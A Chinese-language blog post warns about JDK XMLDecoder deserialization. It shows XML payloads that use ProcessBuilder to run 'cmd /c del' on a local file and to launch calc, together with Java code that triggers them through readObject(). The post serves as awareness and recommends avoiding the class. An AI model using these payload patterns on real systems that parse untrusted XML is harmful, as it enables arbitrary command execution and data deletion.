 ```yaml
---
title: JDK 紧急漏洞，XMLDecoder反序列化攻击
date: 2025-10-30 14:42:34
category: 安全漏洞
tags: 安全漏洞
---
```


![](http://img.javastack.cn/17-12-20/73076296.jpg)


昨天在公司发现了一个jdk中的XMLDecoder反序列化的漏洞，看起来很危险！下面通过两个示例来看看这个漏洞的危害！

#### 示例1：利用XmlDecoder删除本地文件

首先来看这个xmldecoder.xml文件内容：

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_151" class="java.beans.XMLDecoder">
	<object class="java.lang.ProcessBuilder">
		<array class="java.lang.String" length="4">
			<void index="0">
				<string>cmd</string>
			</void>
			<void index="1">
				<string>/c</string>
			</void>
			<void index="2">
				<string>del</string>
			</void>
			<void index="3">
				<string>e:\1.txt</string>
			</void>			
		</array>
		<void method="start" />
	</object>
</java>
```

再来看利用XMLDecoder解析这个xml文件的示例代码：

```
private static void byXmlFile() {
	File file = new File("E:\\xmldecoder.xml");
	XMLDecoder xd = null;
	try {
		xd = new XMLDecoder(new BufferedInputStream(new FileInputStream(file)));
	} catch (Exception e) {
		e.printStackTrace();
	}
	Object s2 = xd.readObject();
	xd.close();
}
```

这段代码执行后，直接删除了本地的e:\1.txt文件，相当于在命令行调用了cmd /c del e:\1.txt命令，直接删除了本地文件，相当恐怖！

#### 示例2：利用XmlDecoder调用本地程序

```
private static void byXmlString() {
	String xml = new StringBuilder().append("<?xml version=\"1.0\" encoding=\"UTF-8\"?>")
			.append("<java version=\"1.8.0_151\" class=\"java.beans.XMLDecoder\">")
			.append("    <object class=\"java.lang.ProcessBuilder\">")
			.append("        <array class=\"java.lang.String\" length=\"1\">")
			.append("            <void index=\"0\">")
			.append("                <string>calc</string>")
			.append("            </void>")
			.append("        </array>")
			.append("        <void method=\"start\" />")
			.append("    </object>")
			.append("</java>").toString();
	XMLDecoder xd = null;
	try {
		xd = new XMLDecoder(new ByteArrayInputStream(xml.getBytes()));
	} catch (Exception e) {
		e.printStackTrace();
	}
	Object s2 = xd.readObject();
	xd.close();
}
```

这段代码改成了用String输入源的形式，这不重要，重要的是还是利用了jdk中的XmlDecoder类来解析xml字符串。这段代码执行后，会调用出本地的计算器程序。

![](http://img.javastack.cn/17-12-20/29679880.jpg)

其中ProcessBuilder.start()的方法和Runtime.exec()方法一样，都可以被用来创建一个操作系统进程，可用来控制进程状态并获得相关信息。

ProcessBuilder的构造方法接受一个命令列表。

```
public ProcessBuilder(List<String> command) {
    if (command == null)
        throw new NullPointerException();
    this.command = command;
}
```

#### 总结

Jdk中的XmlDecoder反序列化存在安全漏洞，能调用本地的应用，也能执行系统支持的命令，一旦黑客组织成命令列表攻击系统，后果不堪设想！

我只是用ProcessBuilder类演示了调用系统程序这两种案例，当然还有其他，远不止这一种攻击手段。作者看了下，这个漏洞在jdk8_0_151版本中还存在。

建议不要用JDK中的XmlDeocder类，寻求其它更安全的xml解析工具类。

求转发，紧急扩散，避免更大程度的损失！~
